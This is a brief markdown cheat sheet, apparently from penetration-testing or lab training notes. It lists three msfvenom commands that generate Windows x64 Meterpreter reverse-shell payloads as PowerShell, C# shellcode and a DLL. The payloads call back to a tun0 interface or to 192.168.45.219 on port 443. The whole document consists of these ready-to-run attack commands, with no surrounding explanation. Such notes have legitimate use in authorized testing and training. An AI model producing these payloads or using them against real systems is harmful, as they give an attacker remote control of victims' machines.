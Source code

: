 # Msfvenom

* Powershell Meterpreter Shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
```

* C Sharp Meterpreter Shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f csharp
```

* DLL Meterpreter Shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=443 EXITFUNC=thread -f dll -o met.dll
```

